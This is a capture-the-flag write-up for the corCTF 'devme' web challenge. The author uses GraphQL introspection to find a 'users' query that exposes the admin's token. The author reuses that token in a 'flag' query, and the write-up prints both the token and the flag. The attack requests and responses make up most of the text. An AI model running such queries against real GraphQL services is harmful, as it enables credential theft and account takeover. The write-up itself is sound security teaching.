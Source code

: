 # devme

>
> an ex-google, ex-facebook tech lead recommended me this book!
>
> [https://devme.be.ax](https://devme.be.ax/)



No source code attached, so i try to test the feature one by one. After few second, i've found that the sign up (located at bottom home page) is sending graphql query into https://devme.be.ax/graphql. Since we know that graphql is provided of introspection query by default (cmiiw), we can use GraphiQL tools  [Here](https://www.electronjs.org/apps/graphiql). 



After inserting endpoint, check the documentation explorer for the **query** and **mutation**. In **query** section you will find out users and flag field. Lets check **user** first.

**Request**

```
query{
  users{
    token,
    username
  }
}
```

**Response**

```
{
  "data": {
    "users": [
      {
        "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b",
        "username": "admin"
      },
      .......
```



 Now lets use the token to retreive flag from user admin.



**Request**

```
query{
  flag(token: "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b")
}
```



**Response**

```
{
  "data": {
    "flag": "corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"
  }
}
```



**FLAG:** corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}
